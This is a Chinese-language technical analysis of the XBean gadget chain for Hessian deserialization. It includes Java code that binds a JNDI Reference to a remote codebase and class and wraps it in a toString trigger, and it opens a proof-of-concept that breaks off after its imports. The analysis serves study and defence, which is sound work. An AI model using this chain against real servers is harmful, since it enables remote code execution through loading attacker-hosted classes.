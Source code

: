 ## XBean
### 构造分析
 - 和`ResinGadget`一样, 先创建一个`ReadOnlyBinding`对象来绑定远程的恶意类, 接着调用`MarshallerBase#makeToStringTriggerUnstable`方法.

```java
public interface XBean extends Gadget {

    @Args ( minArgs = 2, args = {
        "codebase", "classname"
    }, defaultArgs = {
        MarshallerBase.defaultCodebase, MarshallerBase.defaultCodebaseClass
    } )
    default Object makeXBean ( UtilFactory uf, String[] args ) throws Exception {
        Context ctx = Reflections.createWithoutConstructor(WritableContext.class);
        Reference ref = new Reference("foo", args[ 1 ], args[ 0 ]);
        ReadOnlyBinding binding = new ReadOnlyBinding("foo", ref, ctx);
        return uf.makeToStringTriggerUnstable(binding); // $NON-NLS-1$
    }

}
```

 - 跟进`MarshallerBase#makeToStringTriggerUnstable`方法, 进一步调用`ToStringUtil#makeSpringAOPToStringTrigger`方法. 这里会调用`HotSwappableTargetSource`来创建两个对象, 最后调用`JDKUtil#makeMap`方法, 和`RomeGadget`后面的分析一样.

```java
@Override
public Object makeToStringTriggerUnstable ( Object obj ) throws Exception {
    return ToStringUtil.makeSpringAOPToStringTrigger(obj);
}
```

```java
public static Object makeSpringAOPToStringTrigger ( Object o ) throws Exception {
    return makeToStringTrigger(o, x -> {
        return new HotSwappableTargetSource(x);
    });
}
```

```java
public static Object makeToStringTrigger ( Object o, Function<Object, Object> wrap ) throws Exception {
    String unhash = unhash(o.hashCode());
    XString xString = new XString(unhash);
    return JDKUtil.makeMap(wrap.apply(o), wrap.apply(xString));
}
```

### POC

```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.ContextUtil;
import org.apache.xbean.naming.context.WritableContext;
import org.springframework.aop.target.HotSwappableTargetSource;
import sun.reflect.ReflectionFactory;

import javax.naming.Context;
import javax.naming.Reference;
import java.io.ByteArrayInputStream;
```